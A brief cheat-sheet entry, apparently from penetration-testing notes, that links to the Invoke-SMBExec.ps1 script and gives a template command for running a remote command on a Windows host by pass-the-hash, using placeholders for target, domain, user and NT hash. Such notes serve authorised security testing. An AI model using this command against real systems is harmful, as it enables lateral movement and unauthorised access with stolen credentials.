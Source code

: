 ### Source
https://raw.githubusercontent.com/Kevin-Robertson/Invoke-TheHash/master/Invoke-SMBExec.ps1  

### Run command remotely
```
Invoke-SMBExec -Target <rhost> -Domain <domain> -User <user> -Command "powershell -c <command>" -Hash <nthash>
```

